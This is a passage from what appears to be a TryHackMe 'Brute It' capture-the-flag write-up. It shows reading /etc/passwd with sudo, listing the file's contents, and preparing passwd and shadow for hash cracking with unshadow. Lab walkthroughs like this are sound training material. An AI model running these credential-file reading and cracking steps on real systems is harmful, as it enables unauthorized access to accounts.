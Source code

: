 Now we can use cat to see the passwd file :

```
john@bruteit:/$ sudo cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
thm:x:1000:1000:THM Room:/home/thm:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
john:x:1001:1001:john,,,:/home/john:/bin/bash

```

## Unshadow 

Now we create the 2 files and use `unshadow` to reveal the password :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ nano passwd     

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ nano shadow  

┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/bruteit]
└─$ unshadow passwd shadow > crackpasswords

```
